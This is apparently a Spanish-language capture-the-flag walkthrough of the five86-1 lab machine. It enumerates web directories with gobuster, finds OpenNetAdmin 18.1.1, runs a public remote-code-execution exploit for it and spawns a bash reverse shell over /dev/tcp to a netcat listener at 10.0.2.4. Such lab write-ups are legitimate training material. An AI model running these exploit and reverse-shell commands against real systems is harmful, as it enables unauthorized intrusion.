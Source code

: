 ```
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.20 -x .html,.txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.20
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              html,txt
[+] Timeout:                 10s
===============================================================
2023/03/01 23:17:14 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 274]
/index.html           (Status: 200) [Size: 30]
/reports              (Status: 401) [Size: 456]
/robots.txt           (Status: 200) [Size: 29]
/.html                (Status: 403) [Size: 274]
/server-status        (Status: 403) [Size: 274]
Progress: 651555 / 661683 (98.47%)
===============================================================
2023/03/01 23:17:47 Finished
===============================================================
```
Lo que encontre dentro de los directorios fue lo siguiente:
#####/robots
```
User-agent: *
Disallow: /ona
```
#####/reports
sign in / log in

#####/ona
Encontramos que la version que usan es © 2023 OpenNetAdmin - v18.1.1
De tal forma que me dispuse a buscar un exploit para el ONA

https://github.com/amriunix/ona-rce/blob/master/ona-rce.py

Lo copie, lo ejecute y me hice una reverse shell

```
python3 exploit.py exploit http://10.0.2.20/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[-] Warning: Error while connecting o the remote target
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh$ bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'
```
Me puse en escucha y procedi a mejorar la shell a una shell inteligente
```
❯ nc -lvnp 443     
listening on [any] 443 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.20] 59888

www-data@five86-1:/opt/ona/www$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null

www-data@five86-1:/opt/ona/www$ ^Z
zsh: suspended  nc -lvnp 443
```
